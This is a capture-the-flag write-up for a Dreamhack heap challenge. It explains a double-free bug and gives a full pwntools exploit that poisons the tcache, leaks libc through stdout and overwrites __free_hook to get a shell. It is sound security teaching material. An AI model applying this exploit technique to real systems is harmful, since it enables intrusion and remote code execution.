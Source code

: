 # Tcache Poisoning - Dreamhack
## Challenge Info
- Date: 2025
- CTF Name: Dreamhack
- Category: pwn
- Difficulty (subjective): easy
- Points: 3
- Provided Files: libc-2.27.so, tcache_poison.c, tcache_poison(ELF)
- tools:
## Brief Description
Exploit Tech: Tcache Poisoning에서 실습하는 문제입니다.
## Initial Analysis
### Environment
``` sh
checksec tcache_poison
Arch:       amd64-64-little
RELRO:      Full RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```
### Code
``` c
// Name: tcache_poison.c
// Compile: gcc -o tcache_poison tcache_poison.c -no-pie -Wl,-z,relro,-z,now

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
  void *chunk = NULL;
  unsigned int size;
  int idx;

  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);

  while (1) {
    printf("1. Allocate\n");
    printf("2. Free\n");
    printf("3. Print\n");
    printf("4. Edit\n");
    scanf("%d", &idx);

    switch (idx) {
      case 1:
        printf("Size: ");
        scanf("%d", &size);
        chunk = malloc(size);
        printf("Content: ");
        read(0, chunk, size - 1);
        break;
      case 2:
        free(chunk);
        break;
      case 3:
        printf("Content: %s", chunk);
        break;
      case 4:
        printf("Edit chunk: ");
        read(0, chunk, size - 1);
        break;
      default:
        break;
    }
  }

  return 0;
}
```
## Vulnerability
### DFB(Double Free Bug)
``` c
case 2:
    free(chunk);
    break;
// 생략
case 4:
    printf("Edit chunk: ");
    read(0, chunk, size - 1);
    break;
```
`free` 이후, `chunk`를 NULL로 초기화하지 않아, Double Free가 가능하며, 해제된 청크를 조작할 수 있다.  
## Exploit
### Strategy
DFB가 존재하기 때문에 한 청크를 Double Free하여 free list인 tcache에 중복으로 연결된 상태를 만든 후, 재할당하여 할당된 청크이면서 free list에 존재하는 청크로 만들어 Tcache Poisoning 공격을 수행할 수 있다. 그 상태에서 임의 주소에 청크를 할당한 후 값을 쓰면 임의 주소 쓰기가 가능하고, 임의 주소에 청크를 할당한 후 값을 읽으면 임의 주소 읽기가 가능하다. 따라서 `__free_hook`을 덮어 써서 쉘을 획득할 것이다. 공격 단계는 다음과 같다.  
1. Tcache Poisoning
2. Libc leak
3. Hook overwrite 
### Exploitation Steps
``` sh
``` sh
one_gadget libc-2.27.so
0x4f3ce execve("/bin/sh", rsp+0x40, environ)
constraints:
  address rsp+0x50 is writable
  rsp & 0xf == 0
  rcx == NULL || {rcx, "-c", r12, NULL} is a valid argv

0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  address rsp+0x50 is writable
  rsp & 0xf == 0
  rcx == NULL || {rcx, rax, r12, NULL} is a valid argv

0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL || {[rsp+0x40], [rsp+0x48], [rsp+0x50], [rsp+0x58], ...} is a valid argv

0x10a41c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL || {[rsp+0x70], [rsp+0x78], [rsp+0x80], [rsp+0x88], ...} is a valid argv
```
### Stack Frame of main
| Variable Name | Offset from EBP |
| --- | --- |
### payload
``` python
from pwn import *

p = remote('host1.dreamhack.games', 16620)
context.arch = "amd64"
e = ELF('./tcache_poison')
libc = ELF('x64/libc-2.27.so')

# func
def slog(symbol, addr): return success(symbol + ': ' + hex(addr))

def alloc(size, data):
    p.sendlineafter(b'Edit\n', b'1')
    p.sendlineafter(b':', str(size).encode())
    p.sendafter(b':', data)

def free():
    p.sendlineafter(b'Edit\n', b'2')

def print_chunk():
    p.sendlineafter(b'Edit\n', b'3')

def edit(data):
    p.sendlineafter(b'Edit\n', b'4')
    p.sendafter(b':', data)

# libc leak
# chunk A
alloc(0x30, b'good') 
free() # tcache: chunk A 
edit(b'A'*8 + b'\x00')
free() # tcache: chunk A -> chunk A

addr_stdout = e.symbols['stdout']
alloc(0x30, p64(addr_stdout)) # tcache: chunk A -> stdout -> __IO_2_1_stdout
alloc(0x30, b'A'*8) # tcache: stdout -> __IO_2_1_stdout

_io_2_1_stdout_lsb = p64(libc.symbols['_IO_2_1_stdout_'])[0:1] # _IO_2_1_stdout_의 lsb, ASLR로 libc base가 바뀌어도 libc의 하위 12bit(3byte)는 변동이 없음
alloc(0x30, _io_2_1_stdout_lsb) # __IO_2_1_stdout에 할당

print_chunk()
p.recvuntil(b'Content: ')
stdout = u64(p.recv(6).ljust(8, b'\x00'))
libc_base = stdout - libc.symbols['_IO_2_1_stdout_']
free_hook = libc_base + libc.symbols['__free_hook']
one_gadget = libc_base + 0x4f432
log.info(f'libc_base: {hex(libc_base)}')
log.info(f'free_hook: {hex(free_hook)}')
log.info(f'one_gadget: {hex(one_gadget)}')

# hook overwrite
# chunk B
alloc(0x40, 'good')
free() # tcache: chunk B
edit(b'B'*8 + b'\x00')
free() # tcache: chunk B -> chunk B

alloc(0x40, p64(free_hook)) # tcache: chunk B -> free_hook
alloc(0x40, b'B'*8) # tcache: free_hook
alloc(0x40, p64(one_gadget)) # free_hook -> one_gadget

free() # call free_hook

# interactive
p.interactive()
```

